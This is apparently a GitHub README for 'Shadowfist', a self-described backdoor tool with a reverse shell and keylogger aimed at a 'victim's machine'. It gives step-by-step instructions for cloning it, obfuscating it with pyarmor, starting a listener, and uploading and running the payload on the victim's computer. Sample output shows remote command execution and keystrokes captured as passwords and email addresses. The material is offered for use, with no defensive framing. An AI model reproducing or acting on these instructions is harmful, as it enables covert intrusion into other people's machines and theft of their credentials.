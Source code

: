 





# Shadowfist

This is an advanced backdoor tool that allows you to remotely access and control a victim's machine. It includes several advanced features, such as a reverse shell and a keylogger.

## Installation

To install the tool, follow these steps:

1. Clone the repository:
```bash
git clone <https://github.com/blackhackwit/advanced-backdoor>
Install the required dependencies:
pip install -r requirements.txt
Compile the code using pyarmor:
pyarmor obfuscate __main__.py
Usage
To use the tool, follow these steps:
Start the reverse shell listener on your machine:
python reverse_shell.py
Upload the compiled code to the victim's machine and run it:
python shadowfist.py
The reverse shell will connect to your machine, allowing you to remotely execute commands and transfer files:
$ ls
Desktop Documents Downloads Music Pictures Public Templates Videos
The keylogger will start recording the victim's keystrokes:
[Keylogger] Started recording keystrokes
[Keylogger] Password: mypassword123
[Keylogger] Email: me@example.com
[Keylogger] Gmail: mygmail@gmail.com

